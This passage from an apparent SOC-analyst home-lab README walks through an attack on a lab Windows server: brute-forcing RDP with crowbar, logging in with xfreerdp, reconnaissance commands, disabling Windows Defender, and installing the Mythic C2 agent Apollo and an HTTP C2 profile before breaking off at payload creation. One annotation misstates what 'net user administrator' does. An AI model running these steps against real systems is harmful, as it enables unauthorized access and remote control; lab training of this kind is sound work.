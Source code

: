   ```bash
     - Input: `ip address from windows server, username`
       - `Ctrl x`, `Ctrl y`, `Enter`

   - Target VM  
     Use: `crowbar -b rdp -u Administrator -C mydfir-wordlist.txt -s (windows public address)/32`  
     *(`-b = rdp service, -u = user, -C = what you will try to authenticate with, -s = target IP address, /32 = only this IP address)*

   - Use the tool xfreerdp to connect to the Windows server  
     Use: `xfreerdp /u:Administrator /p:Winter2024! /v:144.202.56.135:3389`
   - You can see a FreeRDP window pop up  
     *You are now connected to the Windows server by using brute force with Kali Linux.*

![image alt](https://github.com/Miguel-Manriquez-Tapia/SOC-Analyst-Project/blob/main/image/Screenshot%202024-10-08%20143459.png)

## Phase 2:

- Open a command prompt
  - Use: `whoami`, `ipconfig`, `net user administrator` *(adds administrator to admin privileges)*

![image alt](https://github.com/Miguel-Manriquez-Tapia/SOC-Analyst-Project/blob/main/image/Screenshot%202024-10-08%20143512.png)

## Phase 3:

- Disable Windows Defender
  - In Windows security go to Virus & Threat protection
  - Turn off all settings
 
![image alt](https://github.com/Miguel-Manriquez-Tapia/SOC-Analyst-Project/blob/main/image/Screenshot%202024-10-08%20143520.png)

## Phase 4:

*Here is a link to the payloads available on Mythic:*  
https://mythicmeta.github.io/overview/agent_matrix.html

- Login to your Mythic Web GUI
- Now go to Powershell (Mythic Server)
- Add the Mythic agent Apollo  
  Use: `./mythic-cli install github https://github.com/MythicAgents/Apollo.git`

*You will now see Apollo in your Mythic GUI.*

![image alt](https://github.com/Miguel-Manriquez-Tapia/SOC-Analyst-Project/blob/main/image/Screenshot%202024-10-08%20143538.png)

- Create a C2 profile  
  *Here is a list of C2 profiles:*  
  https://github.com/MythicC2Profiles

  - Go to Powershell (Mythic)  
    Use: `./mythic-cli install github https://github.com/MythicC2Profiles/http`

   ![image alt](https://github.com/Miguel-Manriquez-Tapia/SOC-Analyst-Project/blob/main/image/Screenshot%202024-10-08%20143550.png)

![image alt](https://github.com/Miguel-Manriquez-Tapia/SOC-Analyst-Project/blob/main/image/Screenshot%202024-10-08%20143600.png)

- Create a new payload
  - Actions
  ```